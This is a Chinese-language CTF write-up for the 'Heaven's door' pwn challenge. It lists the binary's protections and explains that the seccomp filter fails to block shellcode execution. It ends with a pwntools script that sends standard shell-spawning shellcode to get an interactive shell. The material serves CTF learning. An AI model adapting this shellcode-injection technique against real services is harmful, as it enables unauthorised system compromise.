

# Heaven's door

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## seccomp rules

见下方图例

## 解题思路

可以读取0xc3个字节，执行shellcode，但是扫描了shellcode，只允许2个`syscall`。
仔细观察seccomp，整个防护是无效的！直接打常规的shellcode拿shell都行...



[官方wp](https://mp.weixin.qq.com/s/gXYLwdup6HYd_rETUSb9aA)的解法是切换64位/32位系统调用，
*dbgbgtf* 则在考虑再拼一个`syscall`出来。然而，貌似远程执行syscall后，rcx并不是 syscall
之后的地址，他利用rcx做偏移写0x5失败了，最终没有打通。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './heaven'

def payload(lo: int):
    global sh
    if lo & 4:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'set follow-fork-mode parent\nb *0x401709\nc')
    elif lo:
        sh = remote('127.0.0.1', 1336)
        if lo & 2:
            gdb.attach(('127.0.0.1', 1337), 'set follow-fork-mode parent\nb *0x401709\nc', EXE)
    else:
        sh = remote('', 9999)

    sh.send(asm(shellcraft.sh()))

    sh.clean()
    sh.interactive()
    sh.close()
```

## 参考

1. [第八届西湖论剑·中国杭州网络安全技能大赛初赛官方Write Up（下）](https://mp.weixin.qq.com/s/gXYLwdup6HYd_rETUSb9aA)
